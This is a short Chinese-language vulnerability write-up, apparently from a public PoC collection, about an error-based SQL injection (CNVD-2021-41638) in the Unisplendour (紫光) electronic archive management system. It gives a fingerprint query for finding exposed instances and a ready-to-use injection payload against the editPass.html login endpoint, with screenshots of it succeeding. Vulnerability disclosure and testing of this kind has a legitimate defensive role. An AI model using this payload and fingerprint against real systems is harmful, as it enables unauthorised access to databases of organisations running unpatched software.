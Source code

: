 # 紫光档案管理系统 editPass.html SQL注入漏洞 CNVD-2021-41638

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。
紫光电子档案管理系统存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

<a-checkbox checked>紫光电子档案管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="紫光档案管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633168580711-690386c5-48bd-4162-b6ed-763c9f57ee73.png)

验证POC

```java
/login/Login/editPass.html?comid=extractvalue(1,concat(char(126),md5(1)))
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633168707994-229d0a0c-dedf-4d6b-9554-da2d9015767a.png)
